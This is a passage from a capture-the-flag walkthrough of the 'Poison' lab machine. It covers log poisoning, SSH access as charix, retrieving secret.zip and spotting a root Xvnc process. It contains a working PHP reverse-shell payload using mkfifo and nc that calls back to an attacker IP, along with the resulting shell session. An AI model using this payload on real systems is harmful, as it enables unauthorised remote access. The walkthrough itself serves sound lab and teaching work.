 listening on \[any\] 6001 ...

We can now poison the log with PHP reverse shell code:

&lt;?php exec\('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 10.10.14.135 6001 &gt;/tmp/f'\) ?&gt;

When we make the GET request to view the log, we will get a reverse shell:

┌─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $nc -lvnp 6001

listening on \[any\] 6001 ...

connect to \[10.10.14.135\] from \(UNKNOWN\) \[10.129.105.0\] 35870

sh: can't access tty; job control turned off

$ whoami

www

The shell isn't great and Python is not on the box to use to upgrade it. If you had got access this way, it would have ben to explore the box to find the pwdbackup.txt file and from there the password for the charix user to enable the use of SSH.

Once SSH'd onto the machine, you discover a file secret.zip which you can copy back to your local host using the scp command:

┌─\[rin@parrot\]─\[~/boxes/Poison\]

└──╼ $scp charix@poison.htb:/home/charix/secret.zip .

Password for charix@Poison:

secret.zip 100% 166 0.5KB/s 00:00

The file can be unzipped using charix's password to reveal the secret file which has binary data in it but otherwise it is not clear what it is for.

Back to enumeration. Looking at the processes running, you will notice a process Xvnc:

charix@Poison:~ % ps -aux

USER PID %CPU %MEM VSZ RSS TT STAT STARTED TIME COMMAND

root 11 100.0 0.0 0 16 - RL 14:00 30:53.63 \[idle\]

root 0 0.0 0.0 0 160 - DLs 14:00 0:00.01 \[kernel\]

root 1 0.0 0.1 5408 976 - ILs 14:00 0:00.01 /sbin/init --

root 2 0.0 0.0 0 16 - DL 14:00 0:00.00 \[crypto\]

&lt;SNIP&gt;

root 614 0.0 0.9 23620 8868 v0- I 14:00 0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tight

root 625 0.0 0.7 67220 7048 v0- I 14:00 0:00.03 xterm -geometry 80x24+10+10 -ls -title X Desktop

root 626 0.0 0.5 37620 5312 v0- I 14:00 0:00.01 twm

To get more information, we can display the process information in more detail:
